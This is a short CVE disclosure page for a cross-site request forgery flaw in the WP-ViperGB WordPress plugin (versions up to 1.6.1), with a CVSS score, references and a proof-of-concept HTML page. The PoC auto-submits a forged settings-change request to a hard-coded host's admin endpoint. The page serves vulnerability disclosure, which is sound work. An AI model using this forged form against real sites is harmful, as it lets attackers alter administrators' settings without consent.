 ```yaml
---
layout: page
title: CVE-2024-4409
subtitle: WP-ViperGB <= 1.6.1 - Cross-Site Request Forgery
---
```

## Description
The WP-ViperGB plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.6.1. This is due to missing or incorrect nonce validation when saving plugin settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.6.1

## PoC :
```
<html>
  <!-- Made by eneriii<3 - https://x.com/aaillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/options-general.php?page=wp-vipergb" method="POST">
      <input type="hidden" name="vgb&#95;page" value="0" />
      <input type="hidden" name="vgb&#95;style" value="Default" />
      <input type="hidden" name="vgb&#95;items&#95;per&#95;pg" value="10" />
      <input type="hidden" name="vgb&#95;show&#95;browsers" value="1" />
      <input type="hidden" name="vgb&#95;show&#95;flags" value="1" />
      <input type="hidden" name="opts&#95;updated" value="1" />
      <input type="hidden" name="Submit" value="Save" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3091230%40wp-vipergb%2Ftrunk&old=2812759%40wp-vipergb%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4409
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-vipergb/wp-vipergb-161-cross-site-request-forgery



